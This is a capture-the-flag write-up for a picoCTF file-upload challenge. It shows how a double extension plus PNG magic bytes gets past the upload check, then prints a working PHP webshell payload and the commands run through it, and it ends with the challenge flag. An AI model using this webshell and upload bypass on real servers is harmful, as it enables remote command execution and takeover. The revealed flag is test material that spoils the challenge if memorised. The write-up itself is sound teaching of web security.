

**Note: Certain details about the solve may differ if tried elsewhere, as this challenge is instanced.**

When we first open the webapp, we are given the option to upload a file. And.. not much else.



Playing around, we can uncover some of the inner workings of the app. The file name must *contain* `.png`.
```
Error: File name does not contain '.png'. 
```

It also seems the server likes to break randomly, if you give it too large of a file. This may have just been an issue with my instance.
```
Fatal error: Uncaught ValueError: Path cannot be empty in /var/www/html/index.php:18 Stack trace: #0 /var/www/html/index.php(18): file_get_contents('') #1 {main} thrown in /var/www/html/index.php on line 18
```

If we change a random file to end in `.png`, we get the following error. 
```
Error: The file is not a valid PNG image: c289500d
```

So what's going on?? Well, the server is performing a bunch of (insecure) checks to see if our file is a valid PNG image. We have to find ways to bypass them. Let's test. If we upload a valid PNG file named `test.png.php`, the server lets us through. So we can bypass the filename check like that. 

But what about the strange error about the file not being a valid PNG image? Well, how does the application know? Let's test. Sending a file named `c.png` with contents:
```
bruhasadsadasdsadas
```

The webapp returns this error.
```
Error: The file is not a valid PNG image: 62727568
```

..hey, that hex looks readable! And it turns out it decodes into the first four bytes of our file! This is how many programs check filetypes, known as the magic bytes or file signature. So all we need to do is include the first four bytes of a PNG file into our payload, and the app will think it's a PNG file.

So what can we do with this? Well, remember that file named `test.png.php`? If we can put whatever we want in there, the server will execute it as arbitrary PHP. This opens up a huge vulnerability and allows us to upload a webshell to the server. We can construct a simple one (or take one from the many webshells people have constructed) and put it in our file. Using burp, we submit this:

```
### REQUEST ###

Content-Disposition: form-data; name="file"; filename="b.png.php"
Content-Type: image/png

‰PNG

<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>

### RESPONSE ###

File uploaded successfully and is a valid PNG file. We shall process it and get back to you... Hopefully
```

That worked! Note that the `PNG` at the start there includes some extra bytes that don't translate into an ASCII character (the magic bytes for a PNG are 89504E47). Now we just need to find out where to view our files to be able to access this webshell to execute arbitrary commands. Checking the `robots.txt`, we can see:
```
User-agent: *
Disallow: /instructions.txt
Disallow: /uploads/
```

So our files must go to `/uploads/`. Let's go there, and put a command in. 
```
http://atlas.picoctf.net:50059/uploads/b.png.php?cmd=ls

�PNG  b.png.php ssssssss.png 
```

We are just listing the current directory, let's view the home directory.

```
http://atlas.picoctf.net:50059/uploads/b.png.php?cmd=ls%20..

�PNG  GNTDOMBWGIZDE.txt index.php instructions.txt robots.txt uploads 
```

That `GNTDOMBWGIZDE.txt` file looks suspicious... let's check it out!

```
http://atlas.picoctf.net:50059/GNTDOMBWGIZDE.txt
```

Flag: `picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_3f706222}`